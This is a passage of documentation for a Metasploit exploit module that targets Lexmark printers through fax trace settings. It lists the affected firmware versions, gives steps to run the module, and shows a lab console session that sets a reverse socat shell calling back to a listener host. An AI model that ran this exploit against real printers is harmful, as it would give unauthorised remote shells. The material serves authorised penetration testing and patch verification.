 | CS720, CS725, CS727, CS728 | CSTAT.081.232 and previous | CSTAT.081.233 and later |
| C4150 | CSTAT.081.232 and previous | CSTAT.081.233 and later |
| CX725, CX727 | CXTAT.081.232 and previous | CXTAT.081.233 and later |
| XC4140, XC4143, XC4150, XC4153 | CXTAT.081.232 and previous | CXTAT.081.233 and later |
| CS921, CS923, CS927 | CSTMH.081.232 and previous | CSTMH.081.233 and later |
| C9235 | CSTMH.081.232 and previous | CSTMH.081.233 and later |
| CX920, CX921, CX922, <br/>CX923, CX924 | CXTMH.081.232 and previous | CXTMH.081.233 and later |
| XC9225, XC9235, XC9245, <br/>XC9255, XC9265 | CXTMH.081.232 and previous | CXTMH.081.233 and later |

## Verification Steps
1. Start `msfconsole`
1. Do: `use exploit/linux/http/lexmark_faxtrace_settings`
1. Do: `set RHOST [IP]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`

## Options

### SLEEP

If the printer has been inactive for some time it might be sleeping, in which case it's best to send a request
or two to wake it up before running the check method or exploit. This parameter indicates how to to wait for the printer
to wake up.

## Scenarios

### Lexmark Printer MC3224 CXLBL.073.023
```
msf6 > use linux/http/lexmark_faxtrace_settings
[*] Using configured payload cmd/unix/reverse_socat_tcp
msf6 exploit(linux/http/lexmark_faxtrace_settings) > set rhosts 192.168.1.71
rhosts => 192.168.1.71
msf6 exploit(linux/http/lexmark_faxtrace_settings) > set lhost 192.168.1.72
lhost => 192.168.1.72
msf6 exploit(linux/http/lexmark_faxtrace_settings) > options

Module options (exploit/linux/http/lexmark_faxtrace_settings):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.71     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SLEEP    10               yes       Sleep time to wait for the print to wake
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_socat_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.72     yes       The listen address (an interface may be specified)
```